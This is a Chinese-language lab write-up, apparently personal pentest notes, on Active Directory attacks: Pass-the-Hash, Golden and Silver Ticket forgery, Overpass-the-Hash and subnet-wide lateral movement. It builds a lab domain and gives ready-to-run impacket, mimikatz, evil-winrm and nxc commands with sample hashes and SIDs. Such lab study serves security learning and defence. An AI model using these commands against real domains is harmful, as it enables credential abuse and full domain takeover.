









# Pass-the-Hash

## 0x 01 原理
### 1.1 什么是Pass-the-Hash
NTLM 认证的核心是**挑战-应答**——服务端给随机 Challenge，客户端用 NTLM Hash 算 Response，服务端最终验证的是这个 Response。
```
正常认证:       密码 → MD4 → NTLM Hash → 使用 Hash 算 Response → 验证通过
Pass-the-Hash: 直接给 NTLM Hash → 用 Hash 算 Response → 验证通过
```
攻击者在获得NTLM Hash的前提下，通过Pass-the-Hash上诉流程可直接获取服务端验证。
### 1.2 漏洞前置
|     | 条件                      | 为什么                         | 对应靶场                          |
| --- | ----------------------- | --------------------------- | ----------------------------- |
| ①   | 拥有目标用户的 NTLM Hash       | 没有哈希，没有 PtH                 | DCSync 导出的 Administrator Hash |
| ②   | 目标用户是目标机器的管理员           | 只有管理员能远程登录 (psexec/wmiexec) | Administrator / bob           |
| ③   | 攻击机能连到目标 (445/135/5985) | PtH 工具走 SMB/WMI/WinRM       | Kali → 靶场                     |
> Pass-the-Hash 不需要域控关闭SMB 签名

### 1.3 漏洞位置

常见获取NTLM Hash的三种方式：

|          方式           |             数据             |    需要什么权限     |
| :-------------------: | :------------------------: | :-----------: |
|        DCSync         |     全域所有哈希 (含 krbtgt)      | Domain Admins |
| SAM dump (SMB Relay)  | 本机本地哈希 (DSRM / localadmin) |    SYSTEM     |
| LSASS dump (Mimikatz) |      当前登录的所有用户哈希 + 明文      |     本地管理员     |
## 0x 02 Golden Ticket
### 2.1 什么是Golden Ticket
Golden Ticket，也就是常说的黄金票据。在 Kerberos 认证中，客户端在 AS-REQ 中向 KDC 请求 TGT，KDC 用 KRBTGT 账户的 NTLM Hash 加密 TGT 后返回给客户端。

### 2.2 漏洞原理
KRBTGT 是域信任的锚点——所有 TGT 都由它签发。
 如果攻击者通过 上诉三种方式获取到 KRBTGT 的 NTLM Hash，就等于拥有了签发 TGT 的能力。攻击者可以用这个 Hash 伪造任意用户的 TGT：自定义用户名、注入 Domain Admins 的 SID、设置 10 年有效期。KDC 收到伪造的 TGT后用自己的 KRBTGT Hash 验签——因为用的是同一把密钥，验签通过，KDC 完全信任这张假票。拿到假 TGT 就变成了域里任何人，整个域的认证体系崩塌。

### 2.3 攻击复现
前提：基于DCSync获取到KRBTGT NTLM Hash，详细参考[DCSync](https://dragonkeep.github.io/Notes/Note/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/DCSync.html).
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1136eb33562cb7f89b48424fc67c52a7:::
```
**Step 1：获取 Domain SID**

```bash
impacket-lookupsid corp.local/bob:P@ssw0rd2@192.168.127.10 | grep "Domain SID"
# Domain SID: S-1-5-21-1469157865-1938650789-3726502068
```

**Step 2：制作黄金票据**

```bash
# 伪造 Administrator 的 TGT
impacket-ticketer \
  -nthash 1136eb33562cb7f89b48424fc67c52a7 \
  -domain-sid S-1-5-21-1469157865-1938650789-3726502068 \
  -domain corp.local \
  Administrator

# 高级用法: 伪造不存在的用户 + 自定义有效期
impacket-ticketer \
  -nthash 1136eb33562cb7f89b48424fc67c52a7 \
  -domain-sid S-1-5-21-1469157865-1938650789-3726502068 \
  -domain corp.local \
  -duration 3650 \
  fakeadmin
```

参数说明：

| 参数              | 含义                             |
| --------------- | ------------------------------ |
| `-nthash`       | KRBTGT NTLM Hash               |
| `-domain-sid`   | 域 SID                          |
| `-extra-sid`    | 额外注入的组 SID，如 512=Domain Admins |
| `-duration`     | 票据有效期（天），默认 10 年               |
| `Administrator` | 伪造的用户名                         |


**Step 3：导入票据并使用**

```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache

# 无密码登录 DC01
impacket-psexec corp.local/Administrator@dc01.corp.local -k -no-pass
impacket-wmiexec corp.local/Administrator@dc01.corp.local -k -no-pass
```

伪造不存在用户的情况，本地使用Windows Server 2019 没有认证成功：

微软在Windows Server 2016/2019 之后加强了对PAC验证，在Windows Server 2008/2012等版本可能可以成功，这里不多说明。

**Step 4：Mimikatz（Windows 域内）**

```
mimikatz # privilege::debug
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-1469157865-1938650789-3726502068 /krbtgt:1136eb33562cb7f89b48424fc67c52a7 /id:500 /ptt
mimikatz # misc::cmd
```

`/ptt` 直接将伪造的 TGT 注入当前会话，弹出的 cmd 就是域管权限。

## 0x 03 Silver Ticket
### 3.1 原理

TGS（阶段二返回的服务票据）用**目标服务的 NTLM Hash** 加密，而不是 KRBTGT Hash。
服务端验证 ST 时自己解密，**不联系 KDC**。
攻击者通过Service Key签名ST向服务端发送AP-REQ，Service Key本质上就是服务账户的密码哈希，服务端通过认证后，攻击者就成功掌控服务器的服务控制权。

**Golden Ticket 伪造 TGT（KRBTGT Key），Silver Ticket 伪造 ST（Service Key）。**

### 3.2 漏洞前置条件

|     | 条件                | 为什么                                 |
| --- | ----------------- | ----------------------------------- |
| ①   | 目标服务账户的 NTLM Hash | 签 ST 的密钥                            |
| ②   | Domain SID        | 嵌入 ST                               |
| ③   | 目标 SPN            | 票据必须指定服务 (如 `cifs/dc01.corp.local`) |
| ④   | 目标服务可达            | 网络通即可                               |

### 3.3 漏洞位置



### 3.4 靶场部署

**架构**：

```
SRV2016 (192.168.127.11) ← MSSQL 服务
Kali (192.168.127.139)   ← 攻击机
svc_mssql                ← 域服务账户
```

**Step 1：安装 SQL Server Express 在 SRV2016 上**

在 SRV2016 上下载 SQL Server 2019 Express：

```
https://www.microsoft.com/en-us/download/details.aspx?id=101064
```

安装：

```
双击 SQLEXPR_x64_ENU.exe → Basic → Accept → 等待完成
```

安装完成后，将 SQL Server 服务改为以 `svc_mssql` 身份运行：

```powershell
# 切服务登录账户
sc.exe config "MSSQL`$SQLEXPRESS" obj= "corp\svc_mssql" password= "S3rviceP@ss!"

# 给 svc_mssql 最低权限——仅 SQL 数据目录读写，不是管理员
# 先确认 SQL 实例的目录名
Get-ChildItem "C:\Program Files\Microsoft SQL Server" -Directory | Select Name
# MSSQL13.SQLEXPRESS 是 2016 Express，如果不同改成对应的

icacls "C:\Program Files\Microsoft SQL Server\MSSQL13.SQLEXPRESS\MSSQL\Data" /grant "corp\svc_mssql:(OI)(CI)F" /T
icacls "C:\Program Files\Microsoft SQL Server\MSSQL13.SQLEXPRESS\MSSQL\Log" /grant "corp\svc_mssql:(OI)(CI)F" /T

Restart-Service "MSSQL`$SQLEXPRESS"
```
**Step 2：SPN 指向 SRV2016**

在 DC01 上以域管理员执行：

```powershell
# 注册新 SPN（指向 SRV2016）
setspn -A MSSQLSvc/srv2016.corp.local:1433 svc_mssql
setspn -L svc_mssql
```

**Step 3：MSSQL服务开启远程TCP服务**
在SVC-2016上：
```powershell
# 启用 TCP/IP
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL13.SQLEXPRESS\MSSQLServer\SuperSocketNetLib\Tcp" -Name Enabled -Value 1

  # 设端口 1433
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL13.SQLEXPRESS\MSSQLServer\SuperSocketNetLib\Tcp\IPAll" -Name TcpPort -Value "1433"

  # 重启
  Restart-Service "MSSQL`$SQLEXPRESS"
```


### 3.4 攻击复现

**前提**：攻击者已经获取到svc_mssql密码哈希。

```bash
impacket-secretsdump corp.local/bob:P@ssw0rd2@192.168.127.10 -just-dc-user svc_mssql
```

**制作白银票据**：
```bash
impacket-ticketer \
    -nthash df665447411f88eb2491538a899eae0f \
    -domain-sid S-1-5-21-1469157865-1938650789-3726502068 \
    -domain corp.local \
    -spn MSSQLSvc/srv2016.corp.local \
    Administrator

export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient corp.local/Administrator@srv2016.corp.local -k -no-pass
```

常用 SPN 服务表：

| 服务 | SPN 格式 | 用途 |
|------|---------|------|
| CIFS | `cifs/dc01.corp.local` | SMB 文件共享 |
| HOST | `host/dc01.corp.local` | WMI / 计划任务 / 远程执行 |
| HTTP | `http/dc01.corp.local` | IIS / WinRM over HTTP |
| MSSQLSvc | `MSSQLSvc/dc01.corp.local:1433` | SQL Server |
| WSMAN | `wsman/dc01.corp.local` | WinRM |

## 0x 04  常见利用方式
### 4.1 Pass-the-Hash：psexec（SMB 445, NTLM）

```bash
impacket-psexec -hashes :1136eb33562cb7f89b48424fc67c52a7 Administrator@192.168.127.10
```

### 4.2 Pass-the-Hash：wmiexec（WMI 135, NTLM）

```bash
impacket-wmiexec -hashes :1136eb33562cb7f89b48424fc67c52a7 Administrator@192.168.127.10
```

### 4.3 Pass-the-Hash：evil-winrm（WinRM 5985, NTLM）

```bash
evil-winrm -i 192.168.127.10 -u Administrator -H 1136eb33562cb7f89b48424fc67c52a7
```

### 4.4 Overpass-the-Hash：从 Hash 转到 Kerberos

相比 PtH 走 NTLM，这个方法走 Kerberos——适合 NTLM 被禁的攻击面：

```bash
# Step 1: 用 NTLM Hash 向 KDC 申请 TGT
impacket-getTGT corp.local/Administrator -hashes :1136eb33562cb7f89b48424fc67c52a7 -dc-ip 192.168.127.10
# → Administrator.ccache

# Step 2: 用 TGT 访问服务（走 Kerberos）
export KRB5CCNAME=Administrator.ccache
impacket-psexec corp.local/Administrator@dc01.corp.local -k -no-pass
```

### 5.5 横向移动

```bash
# 全域哈希 → 对每台机器 PtH
nxc smb 192.168.127.0/24 -u Administrator -H 1136eb33562cb7f89b48424fc67c52a7 --local-auth
```
